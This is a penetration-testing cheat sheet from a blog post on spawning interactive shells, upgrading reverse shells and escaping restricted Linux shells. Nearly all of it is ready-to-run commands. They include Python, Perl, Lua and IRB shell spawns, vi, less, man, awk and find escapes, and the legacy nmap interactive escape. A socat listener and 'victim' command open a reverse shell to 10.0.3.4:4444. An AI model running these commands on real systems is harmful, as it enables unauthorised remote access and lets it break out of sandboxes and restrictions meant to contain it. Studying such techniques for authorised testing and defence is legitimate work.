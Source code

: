 ```yaml
---
layout: post
title:  "Escaping & Spawning Interactive Shells"
date:   2018-11-08 10:00:00 +1100
categories: [security,tty]
permalink: /:title:output_ext
comments: true
---
```

<br>
**Source:** [netsec.ws](https://netsec.ws/?p=337) and [ropnop](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
<br>
#### Shell Spawning

**-- Python:**

    python -c 'import pty; pty.spawn("/bin/sh")'
    python3 -c 'import pty; pty.spawn("/bin/sh")'

Or if we can upload a payload, better to use the following to get a proper
interactive shell. [Python PTY Shell](https://github.com/infodox/python-pty-shells)

**-- Bash:**

    echo os.system('/bin/bash')
    /bin/sh -i

**-- Perl:**

    perl —e 'exec "/bin/sh";'
    perl: exec "/bin/sh";


**-- Ruby:**

    ruby: exec "/bin/sh"

**-- LUA:**

    lua: os.execute('/bin/sh')

**-- From within IRB**

    exec "/bin/sh"

**-- Inside vi:**

    :!bash
    :set shell=/bin/bash:shell


**-- Nmap <= 5.21:**

    nmap -V
    nmap --interactive
    !sh


**-- Socat:**

**#Listener:**

    socat file:`tty`,raw,echo=0 tcp-listen:4444

**#Victim:**

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  


**-- stty options:**

**In reverse shell**

    $ python -c 'import pty; pty.spawn("/bin/bash")'
    Ctrl-Z

**In Kali**

    $ stty raw -echo
    $ fg
    press enter

**In reverse shell**
```bash
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```
    
    
    
    sh -r 
    rsh

    rbash
    bash -r
    bash --restricted

    rksh
    ksh -r


[Sans article](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)

One of the most well documented techniques is to spawn a shell from within an
editor such as 'vi' or 'vim'. Open any file using one of these editors and type
the following and execute it from within the editor:

    :set shell=/bin/bash
    OR
    :set shell=/bin/sh

Next, type and execute:

    :shell

Another method is to type:

    :! /bin/bash
    awk 'BEGIN {system("/bin/sh")}'
    find / -name blahblah -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;


**More, Less, and Man Commands**
There is a known escape within these commands. After you use the 'more', 'less',
or 'man' command with a file, type '!' followed by a command. For instance, try
the following once inside the file:

    '! /bin/sh'
    '!/bin/sh'
    '!bash'


**Tee Command**

    echo "evil script code" | tee script.sh

More info on restricted shell found [here]
(https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html)

